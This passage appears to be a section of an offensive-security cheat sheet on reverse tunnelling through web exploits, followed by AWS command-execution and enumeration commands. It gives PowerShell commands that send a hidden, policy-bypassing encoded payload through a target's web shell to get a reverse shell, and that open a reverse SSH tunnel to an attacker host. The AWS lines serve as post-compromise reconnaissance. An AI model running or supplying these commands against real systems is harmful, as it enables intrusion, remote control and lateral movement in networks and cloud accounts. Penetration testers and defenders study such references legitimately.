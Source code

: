 #### Reverse Tunneling Through Web Exploits
- Establish a Reverse Shell via a Web Exploit:
	```powershell
	Invoke-WebRequest -Uri "http://<target_ip>/webshell?cmd=cmd.exe+/c+powershell+-NoP+-NonI+-W+Hidden+-Exec+Bypass+-Enc+<base64_encoded_payload>" -UseBasicParsing
	```
- Create a Reverse SSH Tunnel Through a Web Exploit:
	```powershell
	Invoke-WebRequest -Uri "http://<target_ip>/webshell?cmd=cmd.exe+/c+ssh+-R+<remote_port>:<attack_ip>:<attack_port>+<user>@<intermediary_host>" -UseBasicParsing
	```

# Cloud

#### AWS Command Execution
- List Running EC2 Instances:
	```powershell
	aws ec2 describe-instances --query "Reservations[*].Instances[*].InstanceId"
	```
- Execute a Command on a Remote EC2 Instance Using SSM:
	```powershell
	aws ssm send-command --instance-ids "<instance_id>" --document-name "AWS-RunPowerShellScript" --parameters "commands=hostname"
	```
- Enumerate IAM Roles:
	```powershell
	aws iam list-roles --query 'Roles[*].RoleName'
	```